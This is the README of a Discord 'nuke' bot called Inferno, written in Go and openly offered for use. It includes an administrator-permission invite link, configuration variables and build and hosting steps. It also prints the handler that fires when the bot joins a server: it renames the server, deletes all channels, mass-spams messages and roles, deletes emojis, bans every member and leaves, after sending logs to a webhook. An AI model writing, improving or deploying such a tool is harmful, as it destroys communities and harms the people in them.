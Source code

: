 <img src="https://media.discordapp.net/attachments/1109426745012142081/1183350870079971449/IMG_9567.png?ex=65880461&is=65758f61&hm=44475ba2ed4ff3a5e0a01e530660de151736d11b3038d632fbb672e66a0bd8cf&=&format=webp&quality=lossless&width=1202&height=657">

# Inferno Discord Bot
A powerful Discord nuke bot written on Go

   * [Bot's authorization link](https://discord.com/api/oauth2/authorize?client_id=1193564970751901776&permissions=8&scope=bot)
   * [Discord Server](https://discord.gg/kAfuNzeUDx)
<hr>

## Big thanks to [morg](https://github.com/00-Morg-00)
for code improvements

# .env file
There's many variables such as 

<pre>
{
    BOT_TOKEN: bot's token
    
    WEBHOOK_URL: Webhook's URL
    AVATAR_URL: avatar url for webhook

    CHANNEL_NAME: name of the channel
    SERVER_NAME: name of the server
    ROLE_NAME: name of the role

    EMBED_TITLE: Embed's title
    EMBED_DESCRIPTION: Embed's description

}
</pre>
/// All values are have string data type

# Code Structure
All bot's functions are in cogs folder
<pre>
    main.go
    auto.go
    .env
    avatar.webp
    - cogs
      - channels.go
      - emoji.go
      - leave.go
      - members.go
      - rename.go
      - roles.go
      - webhooks.go
</pre>

# main.go & auto.go
main.go - launches bot and OnGuildCreate handler from auto.go
<pre>
    sess.AddHandler(onGuildCreate) - function onGuildCreate is located in auto.go file
</pre>
<hr>
auto.go - launches bot's functions from cogs folder if bot joined the guilld
<pre>
func onGuildCreate(s *discordgo.Session, event *discordgo.GuildCreate) {
var wg sync.WaitGroup

	cogs.Logs(s, event)
	cogs.GuildRename(s, event)

	wg.Add(1)
	go func() {
		defer wg.Done()
		channels, _ := s.GuildChannels(event.ID)
		cogs.DeleteChannels(s, channels, &wg)
	}()
	wg.Wait()

	for i := 0; i < 50; i++ {
		wg.Add(1)
		go func() {
			defer wg.Done()
			cogs.TextSpam(s, event, &wg)
		}()
	}
	wg.Wait()

	wg.Add(1)
	go func() {
		defer wg.Done()
		cogs.DeleteRoles(s, event)
	}()
	wg.Wait()

	for i := 0; i < 40; i++ {
		wg.Add(1)
		go func() {
			defer wg.Done()
			cogs.RolesSpam(s, event)
		}()
	}
	wg.Wait()

	cogs.EmojiDelete(s, event)
	cogs.MemberBan(s, event)
	cogs.BotLeave(s, event)
}
</pre>

# cogs folder
There's located all bot's functions.
<pre>
	channels.go: 2 functions (DeleteChannels, TextSpam)
	emoji.go: 1 function that deletes all emojis from the server
	leave.go: 1 function that leaves from the server
	members.go: 1 function that bans all members from the server
	rename.go 1 function that renames the server 
	roles.go: 2 functions that deletes and creates roles (DeleteRoles, RolesSpam)
	webhooks.go: 1 function that send logs before nuke bot starts other functions via webhook.
</pre>

# Installation guide
<pre>
	1. Clone or download repository's source code
	2. Install golang
	3. Go to Inferno folder
	4. Change values in .env
	5. Run go build Inferno
</pre>

# Where to host?
We recommend you to use <a href="https://fl0.com">fl0.com</a>, <a href="https://koyeb.com">koyeb.com</a>, <a href="https://back4app.com">back4app.com</a> or <a href="https://render.com">render.com</a>. They're free and there you can host Inferno and other discord bots. More information about other hostings are <a href="https://github.com/DmitryScaletta/free-heroku-alternatives">here</a>

